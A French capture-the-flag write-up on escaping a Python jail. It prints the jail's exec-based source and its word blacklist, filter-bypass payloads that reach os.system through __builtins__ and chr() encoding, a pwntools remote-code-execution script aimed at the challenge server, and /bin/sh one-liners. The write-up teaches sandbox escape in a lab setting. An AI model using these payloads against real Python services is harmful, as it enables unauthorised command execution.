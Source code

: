 ```yaml
---
title: "I want to break free 1/2 | KillerQueen 2021 | Catégorie Pwn"
date: 2021-11-01T12:00:00Z
description: "Python Jail 1/2 | KillerQueen 2021"
categories: ["writeup"]
tags: ["pwn","tuto","writeup"]
keywords: ["tuto", "reverse","howto","ctf","KillerQueen","ctftime","I want to break free","python jail","jail","escape","bypass"]
---
```


# I want to break free 1/2 | KillerQueen 2021

## Fichier(s)
- [Jail](./files/jail.py)
- [blacklist.txt](./files/blacklist.txt)

## Necessaires
- Netcat
- Python3

## Flag
```
kqctf{0h_h0w_1_w4n7_70_br34k_fr33_2398d89vj3nsoicifh3bdoq1b39049v}
```
## Solution détaillée

Le but du challenge est d'escape la jail python pour afficher le contenu d'un Fichier txt et d'avoir le flag.

#### Analyse de Jail.py

```Python
#!/usr/bin/env python3
def server():
    message = """
    You are in jail. Can you escape?
"""
    print(message)
    while True:
        try:
            data = input("> ")
            safe = True
            for char in data:
                if not (ord(char)>=33 and ord(char)<=126):
                    safe = False
            with open("blacklist.txt","r") as f:
                badwords = f.readlines()
            for badword in badwords:
                if badword in data or data in badword:
                    safe = False
            if safe:
                print(exec(data))
            else:
                print("You used a bad word!")
        except Exception as e:
            print("Something went wrong.")
            print(e)
            exit()

if __name__ == "__main__":
    server()
```
On a une boucle infinie qui récupère notre input et l'exécute dans un ``eval(input)`` sous certaines conditions .
En effet il exécute la commande python si `safe` prend la valeur **True**
Celle ci est définie sur *True* de base et passe sur *False* si elle détecte un mauvais charactère.

On a 2 filtres :
- Le premier sur les charactères
- Le second sur les mots utilisés

Notre commande ne dois pas contenir de lettre aillant pour un ordre dans la table ascii inférieur a 33 et supérieur a 126 :
Ainsi les espaces , les backslashs , et autres charactères spéciaux sont interdit ?
Enfin , on ne peut pas utiliser ces mots :
```
cat grep nano import eval subprocess input sys execfile open exec for dir file input write while echo print int os read
```

#### Proof Of Concept (POC)
Avant d'exécuter nos commandes, nous devons faire notre POC , c'est à dire réussir à exécuter une commande simple sur la machine distante .
Pour ce faire, affichons les modules disponibles depuis la jail :

```python
print(__builtins__.__dict__)
```
Le souci est que ``print`` est blacklisté !
Ne sachant pas les modules utilisés, j'ai exécuté sur ma machine la commande pour voir quel module il pourrait y avoir à exploiter :
La chose importante qui en est ressortie et :

```python
'__import__': <built-in function __import__>
```
Supposons que notre cible ait aussi *import*

Comme dans une [SSTI](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) (Server Side Template Injection) , le but est d'importer le module ``\'os\'``

On trouve facilement ce payload sur internet :

```python
__builtins__.__dict__['__import__'.lower()]('os').__dict__['system']('id')
```

Malheureusement, on ne peut pas utiliser :
- 'os'
- 'import'
- sys de 'system'

On peut bypass **import** en le remplaçant par **IMPORT** et a l'inverse , on remplace **'os'** par **'OS'.lower()** et **'system'** par **'SYSTEM'.lower()**

On a donc notre payload final :
```python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('id')
```

![Alt text](./img/id.png)


Maintenant, nous sommes confrontés à un nouveau problème, on ne peut pas faire d’espace.
On peut contourner le filtre de 2 manières, soit en convertissant en octal la commande, soit en remplaçant chaque lettre par son correspondant ``chr()`` de la table ascii

Exemple :
![Alt text](./img/bypass.png)

#### Exploit

Grâce a cette technique on peut écrire un script pour avoir notre RCE :
J'utilise pwntools pour faciliter la gestion du socket TCP (netcat)

```python
#!/usr/bin/env python3
from pwn import *

blacklisted = ['cat','grep','nano','import','eval','subprocess','input','sys','execfile','open','exec','for','dir','file','input','write','while','echo','print','int','os','read']

ip = '143.198.184.186'
port = 45458

proc = remote(ip, port)
print(proc.recv().decode('latin-1'))

def valid(cmd):
	safe = True
	for char in str(cmd):
		if not (ord(char)>=33 and ord(char)<=126):
			safe = False
			print('Badchar !! '+char)
	for badword in blacklisted:
		if badword in str(cmd):
			safe = False
			print("You used a bad word!")
	return safe


def rce():
	# Get User Input
	data = input().strip("\n")

	# Payload
	final = b"__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]("
	for i in range(len(data)-1):
		final += bytes('chr('+str(ord(data[i]))+')+', 'utf-8')
	final += bytes('chr('+str(ord(data[len(data)-1]))+')', 'utf-8')
	final += b")"
	if valid(final):
		# Send Payload
		proc.sendline(final)
		# Print Response
		print(proc.recv().decode('latin-1'))
	else:
		print("You used a bad word!")

while(True):
	rce()
```
Disponible [ici](./files/exploit.py)

Et voici le résultat :

![Alt text](./img/flag.png)


D'autres joueurs on fait d'autres méthodes intéressantes comme celle-ci pour avoir directement un shell:
```Python
getattr(getattr(__builtins__,"__imp"+"ort__")("o"+"s"),"sy"+"stem")("/bin/sh")
```
ou
```Python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('sh')
```
